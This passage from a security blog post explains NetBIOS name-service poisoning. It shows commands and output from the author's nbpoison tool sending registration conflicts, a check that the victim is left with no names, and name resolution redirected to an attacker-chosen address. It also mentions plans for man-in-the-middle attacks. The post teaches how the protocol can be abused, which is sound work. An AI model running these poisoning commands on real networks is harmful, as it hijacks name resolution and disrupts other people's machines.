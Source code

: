 Obviously, in an attack scenario, this isn't ideal. So, what can we do?

Recall a long time ago (at least, it feels like a long time ago when I'm typing...), I talked about sending a 'Conflict' packet to tell a system its name is already in use. So why don't we send a conflict ourselves?

To do this, we run nbpoison with the '-c' (or 'conflict') switch. This tells it to actively send out conflicts (I left it off by default because it can seriously break things). When that's enabled, it'll respond to every registration with a 'conflict'. Observe:
<pre>$ sudo ./nbpoison -s 1.2.3.4 -c
QUESTION name registration: (NB:TEST1    &lt;00|workstation&gt;)
(returning registration conflict)
ADDITIONAL name registration: (NB:TEST1    &lt;00|workstation&gt;): IP: 192.168.1.41, TTL: 300000s
QUESTION name registration: (NB:TEST1     &lt;20|server&gt;)
(returning registration conflict)
ADDITIONAL name registration: (NB:TEST1    &lt;20|server&gt;): IP: 192.168.1.41, TTL: 300000s
QUESTION name registration: (NB:TEST1    &lt;03|messenger&gt;)
(returning registration conflict)
ADDITIONAL name registration: (NB:TEST1    &lt;03|messenger&gt;): IP: 192.168.1.41, TTL: 300000s</pre>
And the first couple packets:
<pre>192.168.1.41 -&gt; 192.168.1.255	NBNS	Registration NB TEST1&lt;00&gt;
192.168.1.2 -&gt; 192.168.1.41	NBNS	Registration response, Name is owned by another node NB 1.2.3.4
192.168.1.41 -&gt; 192.168.1.255	NBNS	Registration NB TEST1&lt;20&gt;
192.168.1.2 -&gt;192.168.1.41	NBNS	Registration response, Name is owned by another node NB 1.2.3.4
...</pre>
As a result, if we ask TEST1 for its list of names, it won't have any:
<pre>$ sudo ./nbquery -d '192.168.1.41' -t NBSTAT
NBSTAT response: recieved 0 names:
(did you poison it with conflicts?)
 * Additional data: 00 0c 29 f9 d9 28 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
                    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00</pre>
Now that TEST1 has been poisoned, TEST2 will always end up at our chosen server:
<pre>C:\Documents and Settings\Ron&gt;ping TEST1

Pinging TEST1 [1.2.3.4] with 32 bytes of data:
...</pre>
<h3>Conclusion</h3>
Hopefully you've taken away a little bit of information about how NetBIOS names work. My tools in their current state obviously don't do a whole lot, but I envision comining them to perform man-in-the-middle attacks against systems, but that'll be in the future. Stay tuned!

Ron